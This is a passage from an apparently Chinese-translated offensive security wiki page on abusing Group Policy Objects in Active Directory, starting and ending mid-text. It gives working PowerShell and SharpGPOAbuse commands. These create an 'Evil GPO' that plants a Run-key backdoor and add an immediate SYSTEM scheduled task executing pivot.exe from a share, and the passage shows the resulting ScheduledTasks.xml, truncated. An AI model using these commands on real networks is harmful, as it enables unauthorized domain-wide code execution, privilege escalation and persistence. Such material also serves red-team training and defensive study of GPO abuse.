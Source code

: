 `administrators`上面的代码会将我们的用户spotless添加到受感染机器的本地组中。请注意，在代码执行之前，组不包含 user `spotless`：

![img](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M0xK_5m5MJbbcNHZ2Jc%2F-M0xOdaIumZqlVbsM9jj%2Fa20.png?alt=media&token=5762f200-26a4-4420-8157-05ec31f5f5a8)

### GroupPolicy 模块**- 滥用 GPO**

您可以检查 GroupPolicy 模块是否随`Get-Module -List -Name GroupPolicy | select -expand ExportedCommands`. 在紧要关头，您可以`Install-WindowsFeature –Name GPMC`以本地管理员身份安装它。
```
\# Create new GPO and link it with the OU Workstrations

New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"

\# Make the computers inside Workstrations create a new reg key that will execute a backdoor

\## Search a shared folder where you can write and all the computers affected can read

Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString
```
更新 GPO 后，此有效负载还需要有人登录计算机内部。

### [**SharpGPOAbuse**](https://github.com/FSecureLABS/SharpGPOAbuse) **- 滥用 GPO** 

它无法创建 GPO，因此我们仍然必须使用 RSAT 来创建 GPO，或者修改我们已经具有写访问权限的 GPO。
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```
### 强制政策更新

以前滥用的**GPO 更新大约每 90 分钟重新加载**一次。 如果您有权访问计算机，则可以使用 强制执行`gpupdate /force`。

### 在引擎盖下

如果我们观察 GPO 的计划任务`Misconfigured Policy`，我们可以看到我们`evilTask`坐在那里：

![img](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M0xK_5m5MJbbcNHZ2Jc%2F-M0xOngBtFZIPTysFBXx%2Fa22.png?alt=media&token=22ac62cf-8c26-4763-8fbf-2fa9c9dccd67)

下面是创建的 XML 文件，`New-GPOImmediateTask`它代表了 GPO 中我们邪恶的计划任务：

\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
```
<?xml version="1.0" encoding="utf-8"?>

<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">

​    <ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="evilTask" image="0" changed="2018-11-20 13:43:43" uid="{6cc57eac-b758-4c52-825d-e21480bbb47f}" userContext="0" removePolicy="0">

​        <Properties action="C" name="evilTask" runAs="NT AUTHORITY\System" logonType="S4U">

​            <Task version="1.3">

​                <RegistrationInfo>

​                    <Author>NT AUTHORITY\System</Author>

​                    <Description></Description>

​                </RegistrationInfo>
```